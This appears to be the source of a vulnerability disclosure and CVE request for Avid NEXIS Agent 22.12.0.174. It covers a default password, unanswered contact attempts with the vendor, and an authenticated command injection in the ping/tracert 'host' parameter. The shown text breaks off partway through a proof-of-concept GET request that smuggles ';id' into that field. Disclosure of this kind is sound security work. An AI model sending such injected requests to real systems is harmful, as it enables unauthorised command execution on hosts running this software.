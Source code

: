 #import "@preview/codelst:2.0.1": sourcecode
#text(font: "IBM Plex Sans")[
*Avid NEXIS® Agent 22.12.0.174* <avid-nexis-agent-22.12.0.174>
#set heading(numbering: "1.")
= Introduction <introduction>
During a customer audit I stumbled over Avid NEXIS® Agent 22.12.0.174 and older versions. The older versions have a default password that can be used to gain access. Luckily, the same default password was also set on the servers with this version. However, as I downloaded and installed the binaries to one of my test machines it showed, that this default password is no longer set/used. Maybe it was only used in past versions but not changed when the server was upgraded. As to my knowledge, the software uses the Linux or Windows user password for login. Therefore past versions might have created a user that was still present on the machine with the upgraded version 22.12.0.174. Version 22.12.0.174 seemed to be the latest version of the software at the time of initially finding the vulnerabilities in June 2023. However, in according to our customer,  the new version 23.12 was released in December 2023. Sadly I wasn’t able to get my hands on the latest version. I am still convinced that most of the bugs are not resolved, as they seem to be fairly old (one in gSOAP was found in 2019) and more due to poor security practices than just a simple single mistake.

I tried to contact the vendor since July 2023. In October, after hearing not a single word from the vendor over mail or several twitter accounts, I decided to report the vulnerability to the German Governmental Institution BSI (Bundesamt für Sicherheit in der Informationstechnik) as a mediator that might have better possibilities and impact to get contact to the vendor.

As of today there is no response from the vendor.

Therefore, with your help, I now request CVEs for the vulnerabilties below. Further I will most likely write a short blogpost about the bugs on our Company blog on #link("https://drive-byte.de")[https://drive-byte.de].

#pagebreak()

#outline()

#pagebreak()


= Vulnerabilities
== Authenticated Remote Command Injection (Linux) <authenticated-remote-command-injection-in-linux>
=== Summary <summary>
The Application is vulnerable to an "Authenticated Remote Command Injection" in the parameter `host` for the types `ping` and `tracert`. But only on Linux systems. Windows does not show the same behavior.

=== CWE <cwe>
#link(
  "https://cwe.mitre.org/data/definitions/77.html"
)[CWE-77: Improper Neutralization of Special Elements used in a Command \('Command Injection'\)]

=== Steps to reproduce <steps-to-reproduce>
The vulnerability can be triggered with the following GET request:

#sourcecode(
  highlighted: (1,)
)[```http
GET /agent?r=tools&type=ping&host=127.0.0.1;id HTTP/1.1
Host: 192.168.40.141:5015
Cookie: avidagent=12345; userveragenttoken=3543434935133395140
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://192.168.40.141:5015/agent
Accept-Encoding: gzip, deflate, br